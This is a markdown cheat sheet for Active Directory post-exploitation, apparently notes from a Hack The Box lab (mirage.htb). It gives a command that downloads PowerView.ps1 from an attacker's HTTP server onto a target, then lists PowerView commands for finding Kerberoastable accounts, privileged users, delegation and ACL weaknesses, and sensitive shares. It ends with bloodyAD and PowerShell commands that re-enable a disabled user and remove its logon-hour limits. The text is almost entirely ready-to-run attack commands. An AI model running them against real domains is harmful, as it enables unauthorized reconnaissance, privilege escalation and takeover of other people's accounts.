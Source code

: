 
# PowerView
Powerful post-exploitation PowerShell tool designed for Active Directory (AD) enumeration and situational awareness.

## Download Powerview to target
```
iwr http://10.10.16.46:8000/PowerView.ps1 -OutFile C:\windows\temp\PowerView.ps1
```

```
. .\PowerView.ps1
```


## Common Commands

### User Enumeration
```powershell
Get-DomainUser                   # Get all users
Get-DomainUser -Identity jdoe    # Get info on specific user
Get-DomainUser -SPN              # Find Kerberoastable accounts
Get-DomainUser -AdminCount 1     # Find privileged users (adminCount=1)
```

### Computer Enumeration
```powershell
Get-DomainComputer
Get-DomainComputer -OperatingSystem "*Server*"
Get-DomainComputer -Unconstrained
```

### Group Enumeration
```powershell
Get-DomainGroup
Get-DomainGroupMember -Identity "Domain Admins"
Get-DomainGroup -AdminCount 1
```
### Domain Enumeration
```powershell
Get-Domain                      # Basic info about the domain
Get-DomainPolicy                # Password and Kerberos policy
Get-NetDomainController         # Get DCs
Get-NetForestTrust              # Enumerate trust relationships
```

### User Hunting
```powershell
Find-DomainUserLocation         # Find where users are logged in
Find-DomainShare                # List accessible shares
Find-InterestingDomainShare     # Find shares with sensitive info
Invoke-UserHunter               # Locate privileged users on machines
```

### ACL/Delegation Abuse
```powershell
Get-ObjectAcl -SamAccountName jdoe -ResolveGUIDs
Find-InterestingDomainAcl
Find-Delegation
```

### OU and GPO Enumeration
```powershell
Get-DomainOU
Get-DomainGPO
Get-DomainGPOLink
```

# Enable AD Account

```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -k remove uac javier.mmarshall -f **ACCOUNTDISABLE**
```

```powershell
Enable-ADAccount javier.mmarshall
```

# Change LogonHours

```powershell
Set-ADUser -Identity "javier.mmarshall" -Clear logonHours
```

```powershell
$logonHours = New-Object 'System.Byte[]' 21

0..20 | ForEach-Object { $logonHours[$_] = 0xFF }

Set-ADUser -Identity javier.mmarshall -Replace @{logonHours = $logonHours}
```

or
```
bloodyAD --host dc01.mirage.htb -d mirage.htb -k set object -v ///////////////////// --raw javier.mmarshall logonHours
```